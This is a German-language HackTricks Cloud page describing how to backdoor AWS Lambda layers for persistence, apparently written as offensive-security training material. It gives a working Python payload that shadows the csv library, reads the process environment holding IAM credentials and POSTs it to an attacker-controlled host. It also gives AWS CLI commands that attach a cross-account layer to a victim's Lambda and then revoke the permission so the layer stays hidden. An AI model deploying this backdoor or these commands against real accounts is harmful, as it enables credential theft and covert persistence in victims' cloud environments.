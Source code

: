# AWS - Lambda Layers Persistence

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Lambda Layers

Ein Lambda-Layer ist ein .zip-Dateiarchiv, das **zusätzlichen Code** oder andere Inhalte **enthalten kann**. Ein Layer kann Bibliotheken, eine [benutzerdefinierte Laufzeit](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), Daten oder Konfigurationsdateien enthalten.

Es ist möglich, bis zu **fünf Layers pro Funktion** einzuschließen. Wenn du einen Layer in eine Funktion einfügst, werden die **Inhalte im Verzeichnis `/opt`** in der Ausführungsumgebung extrahiert.

Standardmäßig sind die **Layers**, die du erstellst, **privat** für dein AWS-Konto. Du kannst wählen, ob du einen Layer mit anderen Konten **teilen** oder den Layer **öffentlich** machen möchtest. Wenn deine Funktionen einen Layer verwenden, den ein anderes Konto veröffentlicht hat, können deine Funktionen **die Layer-Version weiterhin verwenden, nachdem sie gelöscht wurde oder nachdem dir die Berechtigung zum Zugriff auf den Layer entzogen wurde**. Du kannst jedoch keine neue Funktion erstellen oder Funktionen mit einer gelöschten Layer-Version aktualisieren.

Funktionen, die als Container-Image bereitgestellt werden, verwenden keine Layers. Stattdessen packst du deine bevorzugte Laufzeit, Bibliotheken und andere Abhängigkeiten in das Container-Image, wenn du das Image erstellst.

### Python-Ladepfad

Der Ladepfad, den Python in Lambda verwenden wird, ist der folgende:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Überprüfen Sie, wie die **zweite** und dritte **Position** von Verzeichnissen eingenommen werden, in denen **Lambda-Schichten** ihre Dateien entpacken: **`/opt/python/lib/python3.9/site-packages`** und **`/opt/python`**

{% hint style="danger" %}
Wenn es einem Angreifer gelingt, eine verwendete Lambda **Schicht** zu **hintertüren** oder eine hinzuzufügen, die **beliebigen Code ausführt, wenn eine gängige Bibliothek geladen wird**, kann er mit jeder Lambda-Aufruf bösartigen Code ausführen.
{% endhint %}

Daher sind die Voraussetzungen:

* **Überprüfen Sie Bibliotheken**, die vom Code der Opfer **geladen** werden
* Erstellen Sie eine **Proxy-Bibliothek mit Lambda-Schichten**, die **benutzerdefinierten Code ausführt** und die **ursprüngliche** Bibliothek **lädt**.

### Vorgebundene Bibliotheken

{% hint style="warning" %}
Bei der Ausnutzung dieser Technik stieß ich auf eine Schwierigkeit: Einige Bibliotheken sind **bereits geladen** im Python-Laufzeit, wenn Ihr Code ausgeführt wird. Ich erwartete, Dinge wie `os` oder `sys` zu finden, aber **sogar die `json`-Bibliothek war geladen**.\
Um diese Persistenztechnik auszunutzen, muss der Code eine **neue Bibliothek laden, die nicht geladen ist**, wenn der Code ausgeführt wird.
{% endhint %}

Mit einem Python-Code wie diesem ist es möglich, die **Liste der Bibliotheken, die vorab geladen sind**, innerhalb der Python-Laufzeit in Lambda zu erhalten:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Und dies ist die **Liste** (überprüfen Sie, ob Bibliotheken wie `os` oder `json` bereits vorhanden sind)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Und dies ist die Liste der **Bibliotheken**, die **lambda standardmäßig installiert**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In diesem Beispiel nehmen wir an, dass der angezielte Code **`csv`** importiert. Wir werden **den Import der `csv`-Bibliothek backdooren**.

Um dies zu tun, werden wir das Verzeichnis **csv** mit der Datei **`__init__.py`** darin in einem Pfad erstellen, der von lambda geladen wird: **`/opt/python/lib/python3.9/site-packages`**\
Dann, wenn die lambda ausgeführt wird und versucht, **csv** zu laden, wird unsere **`__init__.py`-Datei geladen und ausgeführt**.\
Diese Datei muss:

* Unser Payload ausführen
* Die originale csv-Bibliothek laden

Wir können beides mit:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Dann erstellen Sie ein Zip-Archiv mit diesem Code im Pfad **`python/lib/python3.9/site-packages/__init__.py`** und fügen Sie es als Lambda-Schicht hinzu.

Sie finden diesen Code unter [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Die integrierte Payload wird **die IAM-Credentials an einen Server SENDEN, BEIM ERSTEN AUFRUF oder NACH EINEM RESET DES LAMBDA-Containers** (Änderung des Codes oder kaltes Lambda), aber **andere Techniken** wie die folgenden könnten ebenfalls integriert werden:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Externe Schichten

Beachten Sie, dass es möglich ist, **Lambda-Schichten aus externen Konten** zu verwenden. Darüber hinaus kann ein Lambda eine Schicht aus einem externen Konto verwenden, auch wenn es keine Berechtigungen hat.\
Beachten Sie auch, dass die **maximale Anzahl von Schichten, die ein Lambda haben kann, 5 beträgt**.

Daher könnte ein Angreifer, um die Vielseitigkeit dieser Technik zu verbessern:

* Eine bestehende Schicht des Benutzers backdooren (nichts ist extern)
* **Eine** **Schicht** in **seinem Konto erstellen**, dem **Opferkonto Zugriff** auf die Verwendung der Schicht gewähren, die **Schicht** im Lambda des Opfers **konfigurieren** und die **Berechtigung entfernen**.
* Das **Lambda** wird weiterhin in der Lage sein, die **Schicht zu verwenden**, und das **Opfer wird** keine einfache Möglichkeit haben, den **Code der Schichten herunterzuladen** (außer durch den Erhalt einer Reverse-Shell innerhalb des Lambdas)
* Das Opfer **wird keine externen Schichten** sehen, die mit **`aws lambda list-layers`** verwendet werden.

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
